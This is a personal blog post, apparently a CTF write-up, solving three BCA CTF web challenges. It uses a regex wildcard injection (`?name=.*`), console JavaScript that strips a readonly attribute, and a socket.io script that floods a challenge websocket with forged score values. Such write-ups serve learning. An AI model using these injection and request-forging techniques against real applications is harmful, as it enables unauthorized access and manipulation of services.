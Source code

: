 ```yaml
---
layout: post
title: "The Summer of Challs: Week 5"
date: 2024-06-16
categories: CTFs
---
```


This week, I tried a bunch of web challenges from BCA CTF. Here were the ones I solved:

## NOSQL

Upon opening the page, we simply see the message: "Not a valid query : (". 

![NoSQL](/assets/NoSQL.jpg)

Based on the title and challenge description, I knew that I had to do some kind of NoSQL injection. I read the source code to figure out how the application was set up. 

Essentailly, all the lines of a file called 'table.txt' are read into a variable. The app then checks what we send through this part of the code:

```Javascript
app.get('/', (req, res) => {
    if (!req.query.name) {
        res.send("Not a valid query :(")
        return;
    }
    let goodLines = []
    text.forEach( line => {
        if (line.match('^'+req.query.name+'$')) {
            goodLines.push(line)
        }
    });
    res.json({"rtnValues":goodLines})
})
```

It returned "Not a valid query : (" because we didn't put a name parameter in the query string. Once we do, the app loops through the elements of the array that stores the text file lines, and uses a regex expression to match whatever we inputted. Any matches are pushed to a new array, and returned to the front end where the user can supposedly see it. 
 
I reasoned that I needed to make some sort of query that would leak this table, and then make a query according to what was shown in another part of the source code to get the flag:

```JS
app.get('/:id/:firstName/:lastName', (req, res) => {
    // Implementation not shown
    res.send("FLAG")
})
```

In order to make a query that returned the whole table, whatever we passed had to return a match for any of the names. This means we need to bypass the regex check somehow. I did this with the wildcard `.*` which matches anything in this given regex expression. I made a query like this: `url/?name=.*`, and the server returned this:

![NoSql](/assets/%20noSQLNames.jpg)

The last element in this returned array is "Flag Holder", which is obviously the user we need to query for the flag. I copied the array into the console and checked for its length, which was 51. I thought that the user was of ID 50, because I assumed the counting started from 0. This however didn't work, so the IDs must have been counted from 1. 

I then made this request: `url/51/Flag/Holder`, and got the flag:

![NoSql](/assets/NoSQLFlag.jpg)

## PHONE NUMBER

![PhoneNumber](/assets/PhoneNumber.JPG)

We are told to enter our phone number, but can't type anything in. Instead, we have to roll dice, add and subtract the values from these dice, and add the resulting value, one digit at a time. The phone number we need to enter, given by the challenge, is 1234567890. 

The frontend code (they used inline scripting) ensures that we can't actually enter the phone number through this long dice method because anytime we roll snake eyes (two 1s), it will reset the input. And, if at any point, we are at "123456789", it will make sure we roll snake eyes before we can complete the number.

We can't type anything in because they have added a "readonly" attribute to the input box. When we hit submit, it sends our number to a /flag endpoint in the website, where it will return incorrect because it is impossible to send the full number. 

I actually solved this in the console. First, I cloned the input element and removed the readOnly attribute:

```Javascript
var inputField = document.getElementById('input');

function replaceInputElement(element) {
    var newElement = element.cloneNode(true);
    element.parentNode.replaceChild(newElement, element);
    return newElement;
}

inputField = replaceInputElement(inputField);
inputField.removeAttribute('readonly');
```

Then, I wrote a new submit function to make sure we were submitting from our new element:

```Javascript
async function submit() {
    var inputField = document.getElementById('input'); // Ensure this is the updated input field

    if (!inputField.value) {
        alert("Please enter a phone number.");
        return;
    }

    var c = confirm("Is " + inputField.value + " the correct phone number?");
    if (!c) return;

    await fetch('/flag', {
        method: "POST",
        body: inputField.value
    }).then((res) => res.text()).then((text) => text.length !== 0 ? document.body.innerHTML = text : alert("Sorry, incorrect."));
```

After running this code, I could type in the input box. From there, I just typed the phone number, hit submit, and got the flag: 

![Phone Number](/assets/PhoneNumberFlag.jpg)

## COOKIE CLICKER

![Cookie Clicker](/assets/CookieClicker.jpg)

The webapp here is basically a picture of a cookie. We can click it which increments a counter, and in order to get the flag, we have to click it 1e20 times. I don't think even the best cookie clicker players can get that manually.

The server used a websocket and some weird calculations with exponents and Math.random() to make sure that the client is synchronous with it. Essentially, this made it hard for us to just make a script that made many requests. 

However, this is basically what I ended up doing: writing a script that connected to the websocket, and sent it massive numbers thousands of times. Due to the asychronous nature of both ends using Math.Random(), there were some delays. However, I did get this script to work: 

```Javascript
const io = require('socket.io-client');
const socket = io('http://challs.bcactf.com:31386'); 

socket.on('connect', () => {
    console.log('Connected to the server');
    
    let totalClicks = 1000000;
    let currentValue = 0;

    for (let i = 0; i < totalClicks; i++) {
        let clickData = JSON.stringify({
            value: currentValue,
            power: Number.MAX_SAFE_INTEGER * Number.MAX_SAFE_INTEGER
        });

        socket.emit('click', clickData);
        currentValue += Math.floor(Math.random() * 1000000) + 1;


        socket.on('receivedScore', (msg) => {
            let data = JSON.parse(msg);
            console.log(`Current Score: ${data.value}`);
            console.log('clickCount: ' + i)
        });

        socket.on('error', (err) => {
            console.log(`Error: ${err}`);
        });

        if (currentValue > 1e20) {
            console.log('1e20 cookies');
            break;
        }
    }
});

socket.on('disconnect', () => {
    console.log('Disconnected from the server');
});
```

I ran it and got the flag in the terminal:


![Cookie Clicker](/assets/CookieClickerFlag.jpg)

I'm not sure if this was the most efficient or intended way of solving this, but it got me the flag!

I would say that these challenges weren't exactly my favorite, but they helped iron out javascript skills a bit. The web grind continues this week! 